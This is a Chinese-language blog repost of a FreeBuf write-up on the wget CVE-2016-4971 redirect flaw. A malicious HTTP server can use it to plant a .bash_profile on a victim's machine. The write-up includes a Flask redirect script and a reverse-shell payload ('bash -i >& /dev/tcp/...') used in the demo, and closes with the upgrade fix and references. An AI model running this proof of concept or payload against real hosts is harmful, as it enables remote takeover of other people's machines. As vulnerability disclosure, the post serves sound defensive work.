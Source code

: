 ```yaml
---
title: Wget漏洞（CVE-2016-4971）利用方式解析
url: 3400.html
id: 3400
categories:
  - Linux
  - 日常
  - 运维
date: 2016-06-22 15:18:11
tags:
---
```


_原文_  [http://www.freebuf.com/vuls/107206.html](http://www.freebuf.com/vuls/107206.html?utm_source=tuicool&utm_medium=referral)

**漏洞描述**
--------

近日， CVE-2016-4971漏洞被正式披露，该漏洞影响全部旧版本wget, 黑客可以利用此漏洞对程序员和运维工程师进行钓鱼，从而获得其主机权限或者植入rootkit。

**漏洞详情**
--------

wget 作为*nix 系统常用下载工具，支持http、https、ftp 等多种协议，当使用wget 下载文件时，若初始下载http服务提供的下载资源， 如果服务器将下载资源重定向到ftp服务时，wget 会默认信赖http服务器重定向的ftp 链接地址和文件名，而不做二次验证。从而可能下载到恶意钓鱼者的恶意文件，导致主机被入侵。 比如，当我们访问  wget [http://attackers-server/safe_file.txt](http://attackers-server/safe_file.txt) 时，若http server 返回如下响应头。

    HTTP/1.1 302 Found
    Cache-Control: private
    Content-Type: text/html; charset=UTF-8
    Location: ftp://attackers-server/.bash_profile
    Content-Length: 262
    Server: Apache

同时我们在自己的目录下执行wget 请求，且当前home目录下不含有.bash\_profile ，则我们会在自己系统home目录下下载到这个.bash\_profile, 。恶意钓鱼者可以在此bash_profile 文件中写入任何恶意代码，并且我们再次启动shell 时恶意代码就会执行，从而导致我们的主机被入侵。

具体攻击实例演示
--------

当前演示主机上wget 版本如下: ![](http://img1.tuicool.com/BjMbQfR.jpg!web) 我们写一个简单的http下载服务, 命名为testWget.py

    #!/usr/bin/env python
    from flask import Flask, redirect
    app = Flask(__name__)
    @app.route("/noharm.txt")
    def test():
        return redirect("ftp://192.168.50.116/.bash_profile")
    if __name__ == "__main__":
        app.run(host="0.0.0.0",port=80)
    

同时在192.168.50.116 主机上开启ftp服务，且将攻击payload (bash -i >& /dev/tcp/74.207.xxx.xxx/9980 0>&1) 写入ftp服务中的.bash_profile 文件中，并且在自己主机vps 监听9980 端口。 此时在另外一台IP为 192.168.50.61 主机上的Home目录下执行 wget[http://192.168.50.116/noharm.txt](http://192.168.50.116/noharm.txt) (注意该Home目录下没有.bash\_history文件). 退出当前并再次进入shell(触发.bash\_profile文件中的恶意代码执行)。 此时在我们的vps 上可以成功拿到192.168.50.61 的shell 权限。 ![](http://img2.tuicool.com/UjA7Rzu.jpg!web) 上述攻击实例，只是为了用实例演示漏洞的实际危害，具体攻击场景因实际情况而定。

修复方案：
-----

升级你的wget 到GNU wget 1.18版本。

参考文献：
-----

1.  [https://lists.gnu.org/archive/html/bug-wget/2016-06/msg00033.html](https://lists.gnu.org/archive/html/bug-wget/2016-06/msg00033.html)
2.  [https://bugzilla.redhat.com/show_bug.cgi?id=1343666](https://bugzilla.redhat.com/show_bug.cgi?id=1343666)
3.  [https://lists.gnu.org/archive/html/info-gnu/2016-06/msg00004.html](https://lists.gnu.org/archive/html/info-gnu/2016-06/msg00004.html)
4.  [http://git.savannah.gnu.org/cgit/wget.git/commit/?id=e996e322ffd42aaa051602da182d03178d0f13e1](http://git.savannah.gnu.org/cgit/wget.git/commit/?id=e996e322ffd42aaa051602da182d03178d0f13e1)
5.  [http://lists.gnu.org/archive/html/info-gnu/2016-06/msg00004.html](http://lists.gnu.org/archive/html/info-gnu/2016-06/msg00004.html)

***本文作者：liduzhizi，转载须注明来自FreeBuf黑客与极客（FreeBuf.COM）**
